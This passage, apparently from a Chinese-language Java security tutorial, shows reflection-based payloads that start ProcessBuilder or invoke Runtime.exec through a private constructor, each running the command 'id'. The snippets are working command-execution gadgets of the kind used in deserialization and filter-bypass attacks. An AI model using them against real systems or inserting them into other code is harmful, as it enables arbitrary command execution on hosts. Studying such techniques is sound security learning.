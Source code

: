 ```java
        return this;
    }

    public List<String> command() {
        return command;
    }
    
    // 略
}
```

对于第一个构造函数 `public ProcessBuilder(List<String> command) {}`

payload （强制类型转换）

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList("id"))).start();
```

payload （完全使用反射）

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("id")));
```

对于第二个构造函数 `public ProcessBuilder(String... command) {}` 等价于 `public ProcessBuilder(String[] command) {}`

payload （强制类型转换）

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"id"}})).start();
```

payload （完全使用反射）

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"id"}}));
```

### 二：构造函数私有

使用 `getDeclaredMethod` 和 `getDeclaredConstructor` 方法，或者先获取单例

以 `Runtime` 为例

payload （使用 `getDeclared`）

```java
Class clazz = Class.forName("java.lang.Runtime");
Constructor constructor = clazz.getDeclaredConstructor();
constructor.setAccessible(true); // 修改作用域
Process process = (Process) clazz.getMethod("exec", String.class).invoke(constructor.newInstance(), "id");
```
